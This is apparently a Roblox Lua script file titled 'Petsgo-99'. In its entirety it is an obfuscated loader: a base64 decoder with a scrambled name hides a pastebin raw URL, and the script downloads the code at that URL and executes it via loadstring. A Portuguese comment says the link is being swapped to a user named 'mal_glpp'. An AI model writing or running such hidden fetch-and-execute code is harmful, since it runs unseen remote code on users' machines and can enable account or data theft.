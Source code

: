 # Petsgo-99
local b='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
function SgUZzpdCeoHClFgdplQuCHadsDLjPjaIcMTelEAS(data)
    m=string.sub(data, 0, 55)
    data=data:gsub(m,'')

    data = string.gsub(data, '[^'..b..'=]', '')
    return (data:gsub('.', function(x)
        if (x == '=') then return '' end
        local r,f='',(b:find(x)-1)
        for i=6,1,-1 do
            r=r..(f%2^i-f%2^(i-1)>0 and '1' or '0')
        end
        return r
    end):gsub('%d%d%d?%d?%d?%d?%d?', function(x)
        if (#x ~= 8) then return '' end
        local c=0
        for i=1,8 do
            c=c+(x:sub(i,i)=='1' and 2^(8-i) or 0)
        end
        return string.char(c)
    end))
end

-- Substituir o link para o novo usuário 'mal_glpp'
loadstring(game:HttpGet(SgUZzpdCeoHClFgdplQuCHadsDLjPjaIcMTelEAS('xQELSGgupyoPByOisjGJsUopGmvadVFWAHLQCaDzlAKDxUGWOFaSIlnaHR0cHM6Ly9wYXN0ZWJpbi5jb20vcmF3L21hbF9nbHBw')))()
